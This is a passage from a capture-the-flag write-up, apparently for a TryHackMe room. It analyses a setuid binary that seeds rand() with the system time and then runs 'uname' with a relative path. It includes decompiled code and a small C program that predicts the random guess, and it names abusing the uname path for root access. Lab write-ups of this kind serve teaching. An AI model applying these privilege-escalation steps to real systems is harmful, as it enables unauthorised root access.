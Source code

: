{% highlight c %}
void impressive(void)

{
  setregid(0,0);
  setreuid(0,0);
  puts("Nice use of the time-turner!");
  printf("This system architecture is ");
  fflush(stdout);
  system("uname -p");
  return;
}
{% endhighlight %}

Right, so what's going on here?

>The C library function time_t time(time_t *seconds) returns the time since the Epoch (00:00:00 UTC, January 1, 1970), measured in seconds

and

>The C library function void srand(unsigned int seed) seeds the random number generator used by the function rand.

Definitions from [tutorialspoint](https://www.tutorialspoint.com/). So in the *main* method, the time in seconds is used to seed a random value, which is then compared to the guess. If the guess is correct, the *impressive* method is called, which then does *setreuid* and uses *uname* with a path. So we have to abuse *uname*, and we have to guess the correct number.

## Non-random
We can get the system time in seconds like so:

{% highlight shell %}
root@kali:/opt/tryhackme/castle/crack# date '+%s'
1612169467
{% endhighlight %}

So we run that on the box to see what the current system time is. We can create our own file:

{% highlight c %}
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

int main () {

   time_t timeval;
   unsigned number;
   timeval = 1612158200;
   srand((unsigned)timeval);
   number = rand();

   printf("Value:  %d\n", number);
   return(0);
}
{% endhighlight %}
